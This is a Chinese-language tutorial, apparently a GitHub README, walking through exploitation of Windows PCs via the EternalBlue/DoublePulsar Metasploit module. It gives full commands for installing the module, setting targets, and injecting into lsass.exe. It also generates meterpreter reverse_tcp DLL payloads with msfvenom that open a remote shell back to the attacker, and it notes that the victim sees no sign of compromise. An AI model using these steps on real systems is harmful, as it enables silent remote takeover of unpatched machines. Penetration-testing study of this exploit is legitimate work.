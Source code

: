 #利用Metasploit中的Eternalblue和Doublepulsar Exploit远程Windows PC

##如何利用Eternalblue-Doublepulsar完成渗透测试
这个漏洞利用了两个工具“Eternalblue”和“Doublepulsar”的组合，“Eternalblue”它可以作为windows中的后门使用，而“Doublepulsar”则用于在有效载荷的帮助下注入DLL文件。因此，我们将在Metasploit框架中手动添加此漏洞

攻击者：Kali  **IP:192.168.43.196**

victim：所有拥有该漏洞的Windows操作系统  **IP:192.168.43.14**
##首先我需要先通过github获取该漏洞文件，即ruby文件
```
git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit.git
```
![clone](ch2/1/download.png)
然后打开文件夹将eternalblue-doublepulsar.rb文件加载到相对应的路径，只有这么做才可以在Metasploit中添加此漏洞

###需要注意的是，我们需要将eternalblue-doublepulsar.rb文件移动到路径
```
/usr/share/metasploit-Framework/module/exploits/windows/smb
```
还需要观察到这里还有一个名为**deps**的文件夹，后面会用到
![路径](ch2/1/yidong.png)

##接着加载Metasploit开始渗透测试
```
msfconsole
```
该模块通过eternalblue利用SMBv1和SMBv2协议的漏洞。之后，doublepulsar被用于远程注入恶意DLL

Metasploit框架加载完成之后，我们首先输入该命令，使其加载我们刚才添加的漏洞
```
reload_all
```
接下来我们使用该命令搜索刚才添加的漏洞
```
search eternalblue_doublepulsar
```
![搜索](ch2/1/sousuo.png)
找到对应的路径时候我们使用该漏洞
```
use windows/smb/eternalblue_doublepulsar
```
![参数](ch2/1/canshu.png)
###参数讲解
1:***ETERNALBLUEPATH***：该参数的默认路径为/root/eternalblue_doublepulsar-metasploit/deps
此处观察到上面所提到的deps文件夹，因为我是将eternalblue_doublepulsar-metasploit文件放在用户的家目录下面，所以我的默认路径就为/root/eternalblue_doublepulsar-metasploit/deps，如果你是将eternalblue_doublepulsar-metasploit文件放在你的Kali桌面上，路径即为/root/Desktop/eternalblue_doublepulsar-metasploit/deps，以此类推
注意更改路径不能错，不然无法渗透成功

2：***DOUBLEPULSARPATH***：该参数的默认路径为/root/eternalblue_doublepulsar-metasploit/deps，也还是提到了deps文件夹，和上述一样的设置即可

3：***PROCESSINJECT***：该参数默认值为lsass.exe，该参数根据你选择的victim的系统而决定，如果victim的系统为x64，则该参数设置为lsass.exe，如果victim的系统为x86，则该参数设置为explorer.exe

4：***TARGETARCHITECTURE***：该参数描述的是victim的系统结构，即x64还是x86，该参数默认值为x86，如果victim的系统为x64，则该参数设置为x64，如果victim的系统为x86，则该参数设置为x86

5：***RHOST/RHOSTS***：该参数默认值为空，该参数设置的是victim的IP地址

6：***RPORT***：该参数的默认值为445，不需要去更改，因为该漏洞就是利用445端口

7：***WINEPATH*** ：该参数是wine运行的路径，设置DLL文件的位置，不需要修改
![参数设置](ch2/1/canshushezhi.png)

在上述设置全部完成之后，我们还需要设置payload
对与payload的生成，也需要注意victim的系统架构是x64还是x86，我们直接使用***msfvenom***生成即可

x86的payload为：
```
set payload windows/meterpreter/reverse_tcp 
```
x64的payload为：
```
set payload windows/x64/meterpreter/reverse_tcp 
```

完成之后我们接着设置本地的IP地址和本地监听端口，该地址为Kali的IP地址，本地监听端口只要防火墙没有堵塞的端口都可以
```
set LHOST=x.x.x.x

set LPORT=4444
```
![payload设置](ch2/1/payload1.png)
最后我们还记得上面提到的DLL文件吗？
我们也需要根据victim的系统选择生成该DLL文件

x86的DLL文件为：
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=4444 -f dll -o /root/.wine/drive_c/eternal11.dll
```
x64的DLL文件为：
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=4444 -f dll -o /root/.wine/drive_c/eternal11.dll
```
![DLL设置](ch2/1/dll.png)

万事俱备，只欠一条exploit命令
```
epxloit
```
![渗透成功](ch2/1/metasploit.png)

这是正常渗透成功的页面，无需victim任何操作，而且victim毫无反应，任何提示都没有

现在来查看一下victim系统信息
![渗透成功](ch2/1/sysinfo.png)

渗透成功了，是不是很简单，记住渗透过程中的关键点就可以完成这一次渗透测试

Enjoy It!!!



如果帮助到你了，希望可以得到你的打赏，谢谢